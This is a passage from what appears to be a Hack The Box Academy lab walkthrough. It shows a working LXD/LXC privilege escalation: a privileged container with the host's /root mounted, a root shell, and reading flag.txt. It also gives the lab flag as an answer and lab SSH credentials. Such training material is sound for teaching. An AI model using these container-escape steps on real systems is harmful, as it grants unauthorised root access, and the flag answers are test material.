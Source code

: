 ```
htb-student@ubuntu:~/ContainerImages$ lxc init alpine-container privesc -c security.privileged=true

Creating privesc

htb-student@ubuntu:~/ContainerImages$ lxc config device add privesc host-root disk source=/root path=/mnt/root recursive=true

Device host-root added to privesc
```

Finally, students need to start the container and execute the shell interpreter `/bin/sh`:

Code: shell

```shell
lxc start privesc
lxc exec privesc /bin/sh
```

```
htb-student@ubuntu:~/ContainerImages$ lxc start privesc

htb-student@ubuntu:~/ContainerImages$ lxc exec privesc /bin/sh

~ # 
```

With the new root shell, students need to read the contents of the flag:

Code: shell

```shell
cat /mnt/root/flag.txt
```

```
~ # cat /mnt/root/flag.txt

HTB{C0nT41n3rs_uhhh}
```

The flag reads `HTB{C0nT41n3rs_uhhh}`.

Answer: `HTB{C0nT41n3rs_uhhh}`

# Docker

## Question 1

### "Escalate the privileges on the target and obtain the flag.txt in the root directory. Submit the contents as the answer."

Students first need to connect to the spawned target machine using `SSH` and the credentials `htb-student:HTB_@cademy_stdnt!`:
